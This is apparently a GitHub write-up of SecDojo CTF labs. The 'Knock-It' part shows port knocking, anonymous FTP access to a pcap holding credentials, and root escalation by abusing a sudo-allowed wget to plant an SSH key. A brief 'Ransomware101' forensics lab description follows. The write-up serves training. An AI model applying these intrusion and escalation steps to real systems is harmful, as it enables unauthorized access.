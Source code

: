 # secdojo-23jan
SecDojo 23jan CTF writeups.

##
![image](https://user-images.githubusercontent.com/48088579/151042148-acab8117-1cc0-400e-87de-209a5c9f3243.png)


# Knock-It


### Lab Description
The purpose of this lab is to learn how to perform network packet analysis in order to get more intel about the hidden network infrastructure, detect misconfigurations, and most importantly, how you can make use of this intel to get access to systems and escalate your privileges.


## Unacknowledged

IP: 172.16.4.74

### Nmap Scan: nmap -sC -sV 172.16.4.74

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-25 19:04 UTC
Nmap scan report for 172.16.4.74
Host is up (0.0013s latency).
Not shown: 997 closed ports
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4f:d3:06:c9:29:81:07:68:3a:c1:2b:49:12:39:c6:19 (RSA)
|   256 f8:fe:33:8d:d9:d5:97:3b:14:08:18:10:4f:3a:19:5c (ECDSA)
|_  256 c2:d5:c2:60:62:0d:cd:a9:83:01:92:b6:dd:be:d6:a2 (ED25519)
80/tcp open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.29 seconds

```

### FTP 21/tcp Port Knocking:

```bash
knock 172.16.4.74 21
nmap --script firewall-bypass 172.16.4.74
```

### FTP Enumaration: nmap -sC -sV -p21 172.16.4.74

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-25 19:10 UTC
Nmap scan report for 172.16.4.74
Host is up (0.00031s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            5930 Aug 28  2019 login.pcap
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.16.4.244
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.74 seconds
```

### FTP Anonymous Login: ftp 172.16.4.74

```bash
Connected to 172.16.4.74.
220 (vsFTPd 3.0.3)
Name (172.16.4.74:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            5930 Aug 28  2019 login.pcap
226 Directory send OK.
ftp> get login.pcap
local: login.pcap remote: login.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for login.pcap (5930 bytes).
226 Transfer complete.
5930 bytes received in 0.00 secs (3.2539 MB/s)
ftp> 
```

### `login.pcap` Analysis: strings login.pcap | less

![image](https://user-images.githubusercontent.com/48088579/151044232-5ddc1ac1-8c8b-44dc-9efb-122d3ef9730d.png)

NOTE: You can use `tshark`.

## User:

![image](https://user-images.githubusercontent.com/48088579/151044341-81c93571-bb77-4578-a013-0611112d38f7.png)

## Privilege Escalation:

```bash
$ sudo -l
Matching Defaults entries for kabayla on ip-172-16-4-74:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kabayla may run the following commands on ip-172-16-4-74:
    (root) NOPASSWD: /usr/bin/wget
$ 
```

### Using `wget` to download our public key in `.ssh` root folder:

### In our pwnbox:

![image](https://user-images.githubusercontent.com/48088579/151044744-42a0bbdb-027b-412a-abc3-7bb7354a98bb.png)

### In the target machine:

![image](https://user-images.githubusercontent.com/48088579/151044854-1d007ffd-7c70-439a-b932-12d6696e8101.png)

# SSH Connection to root:

![image](https://user-images.githubusercontent.com/48088579/151044910-3b577833-711f-45b1-bb8c-55909f5ff5eb.png)

##
![image](https://user-images.githubusercontent.com/48088579/151046357-ecd91039-7d91-480c-a57c-25a7633ccabf.png)

## Ransomware101


### Lab Description
Ransomware101 is a scenario that represents a typical case of a Windows machine hit by ransomware, a malware that encrypts all personal victim data in exchange for a ransom.
As an investigator, you must first locate and analyze the malware using reverse engineering techniques to be able to understand its infection mechanism.
Once you deduce the encryption key used by the malware, you can decrypt and submit the encrypted flag located at C:\Users\Administrator\Desktop\proof.txt.
